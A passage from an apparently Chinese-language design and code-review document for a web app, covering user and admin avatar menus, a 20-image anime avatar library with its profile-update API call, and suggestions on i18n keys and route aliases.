  | [🖼️ 用户头像]                                                |
  |   +-------------------------------------------------------+ |
  |   | 👤 用户名 (当前积分: 120 Points)                      | |
  |   | ----------------------------------------------------- | |
  |   | 🎁 每日签到 (未签: 高亮提示 / 已签: 置灰防重)         | |
  |   | 🎨 更换头像 (呼出 20 宫格选择面板)                     | |
  |   | 🚪 退出登录                                           | |
  |   +-------------------------------------------------------+ |
  +-------------------------------------------------------------+

  [ 状态 3: 超级管理员 ]
  +-------------------------------------------------------------+
  | [👑 管理员头像]                                              |
  |   +-------------------------------------------------------+ |
  |   | 👑 超级管理员身份标识                                  | |
  |   | ----------------------------------------------------- | |
  |   | ⚙️ 管理后台 (跳转 /admin 控制台)                      | |
  |   | 🎨 更换头像 (呼出 20 宫格选择面板)                     | |
  |   | 🚪 退出登录                                           | |
  |   +-------------------------------------------------------+ |
  +-------------------------------------------------------------+
```

- **交互体验特质**：
  - 点击头像按钮打开下拉菜单；在文档任意区域点击自动收回（通过 `document.addEventListener("click", ...)` 捕获）；
  - 普通用户完成签到打卡后，调用 `canvas-confetti` 触发绚丽彩色粒子喷洒动画，并弹出微型 Toast 气泡，即刻将按钮置灰防止二次点击；
  - 超级管理员登录时，严格隐藏普通签到选项，避免管理员权限与普通签到逻辑混乱。

---

### 4.3 20 张二次元动漫预设 WebP 头像库与切换系统

1. **资源配置完整性**：
   - 物理路径：`client/public/assets/avatars/` 下包含完整 20 款二次元动漫形象。
   - 每款均拥有两套尺寸：
     - 高清主图：`avatar_01.webp` ~ `avatar_20.webp`
     - 轻量缩略图：`avatar_01_thumb.webp` ~ `avatar_20_thumb.webp`
   - 合计 40 张 WebP 静态图像文件与 1 个 `avatars.json` 元数据索引文件。
2. **形象多样性与 AI 提示词清单**：
   - 涵盖发色：银白长发、金发双马尾、黑发姬发式、樱粉短发、冰蓝长发、栗色微卷、薄荷双辫、灰发、赤发、墨绿、茶棕、幻彩机甲、蜜橙、淡紫、浅蓝女仆、烟粉赛博、浅金等。
   - 完整记录于 `avatars.json`，提供标准高质量 Midjourney/Stable Diffusion 8k 提示词供未来批量衍生。
3. **切换与持久化**：
   - 用户在 `AvatarModal.svelte` 20 宫格面板中点击心仪头像，触发：
     ```ts
     // client/src/components/auth/AvatarModal.svelte:56
     const res = await userApi.updateProfile({ avatar: url });
     ```
   - 后端路由 `PUT /api/user/profile` 将其原子更新到 `users.avatar`，前端全局状态 `authStore` 同步响应式更新，全站页面即刻无缝呈现新头像。

---

## 五、现有实现审查与差距改进建议

在本次深度调研过程中，通过对真实代码库、SQL 模式及各组件的静态分析与动态运行测试，发现并梳理出以下关键优化建议：

1. **`CoverLockOverlay.svelte` 与 `PermissionBadge.svelte` 国际化支持建议**：
   - **现状**：目前 `CoverLockOverlay.svelte` 与 `PermissionBadge.svelte` 中使用的「登录后可见」、「需 N 积分解锁」、「已解锁」为中文硬编码字符串。
   - **建议**：建议在 `client/src/i18n/i18nKey.ts` 中注册 `permissionLoginRequired`、`permissionPointsRequired`、`permissionUnlocked` 键，并在对应组件中改为动态翻译调用，使前台访客在切换为英文或日文时，卡片封面的遮罩文案同步呈现多语言翻译。
2. **`GET /api/user/profile` 路由冗余对齐**：
   - **现状**：`server/src/routes/user.ts` 目前实现了 `PUT /profile`（更新个人资料）和 `GET /history`（查询签到历史），且 `GET /api/auth/me` 提供了完整的个人资产信息；而 `PLAN.md` 规划表格中列出了 `GET /api/user/profile`。
   - **建议**：可为 `GET /api/user/profile` 提供一条别名路由（代理返回当前用户概要、积分余额、连签统计），进一步增强第三方调用或未来移动端接口的自解释性与一致性。
3. **构建状态保持**：
   - 当前项目已通过 `server` 的 `tsc --noEmit`（退出码 0）和 `client` 的 `bun run build`（退出码 0），后续任何模块调整与优化应保持持续编译验证。

---

## 结论
本工程在品牌唯一性约束、三级权限隔离、密码保护互锁、R2 媒体 Fail-closed 鉴权、EXIF/XMP 隐私剥离、JSON-LD XSS 阻断、D1 原子事务账本、多语言严格匹配以及 20 张二次元预设头像库等各个维度上均已具备完备且扎实的技术实现与规范约束。
